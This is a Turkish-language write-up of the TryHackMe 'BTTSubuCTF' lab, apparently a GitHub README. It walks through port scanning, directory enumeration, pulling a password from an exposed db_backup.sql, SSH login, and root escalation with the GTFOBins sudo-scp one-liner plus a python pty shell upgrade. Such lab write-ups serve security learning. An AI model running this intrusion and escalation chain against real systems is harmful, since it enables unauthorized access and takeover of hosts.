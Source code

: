 # TRYHACKME BTTSubuCTF WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/r/bttsubuctf adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 192.168.1.72 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/ctf_2.png)

Tarama sonucunda 22 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine gidince bir firmaya ait basit bir website ile karşılaşıyoruz.


![Resim2](pics/ctf_1.png)

Websitesine dizin taraması yapmak için dirsearch aracını kullanıyoruz: 

```bash
dirsearch -u http://192.168.1.72
```
-u hedefi belirtir 

![Resim4](pics/ctf_3.png)

Yaptığımız arama sonucunda db_backup.sql adında içinde önemli bilgiler olabilecek bir dosya görüyoruz. Dosyayı görüntülemek için curl aracını kullanıyoruz: 

```bash
curl -ks http://192.168.1.72/db_backup.sql -v 
```
-ks ssl ve tls doğrulamasını atlatır 

-v website ile aramızdaki trafiği daha detaylı gösterir

![Resim4](pics/ctf_4.png)

Ve sysadmin kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile ssh girişi yapabilir miyiz kontrol ediyoruz: 

```bash
ssh sysadmin@192.168.1.72
```
![Resim5](pics/ctf_5.png)

Ve içerdeyiz . İçerde gizli bir ipucu dosyası buluyoruz: 

![Resim5](pics/ctf_6.png)

Sudo yetkilermizi aşağıdaki komutla kontrol ediyoruz: 

```bash
sudo -l
```

-l kullanıcı yetkilerini listeler 


![Resim5](pics/ctf_7.png)

Sadece scp komutunu root yetkisiyle çalıştırabildiğimizi görüyoruz. Bu önlemi aşmak için https://gtfobins.github.io/gtfobins/scp/ sayfasına gidiyoruz

![Resim5](pics/ctf_8.png)

Sayfada root olmak için aşağdaki komutu kullanmamız gerektiğini öğreniyoruz: 

```bash 
TF=$(mktemp) && echo 'sh 0<&2 1>&2' > $TF && chmod +x "$TF" && sudo scp -S $TF x y:
```
TF=$(mktemp) : /tmp dizininde geçici bir dosya oluşturur ve dosya yolunu TF değişkenine atar . 

echo 'sh 0<&2 1>&2' > $TF oluşturduğumuz geçici dosyaya shell açma komutunu(sh 0<&2 1>&2) yazar . 

chmod +x "$TF" dosyamıza çalıştırma izni verir 

sudo scp -S $TF x y:  scp komutunu root yetkileriyle bizim geçici dosyamızı çalıştıracak şekilde başlatır 

![Resim5](pics/ctf_9.png)

Ve rootuz!. shellimizi tam interaktif hale getirmek için aşağıdaki python kodunu kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz .


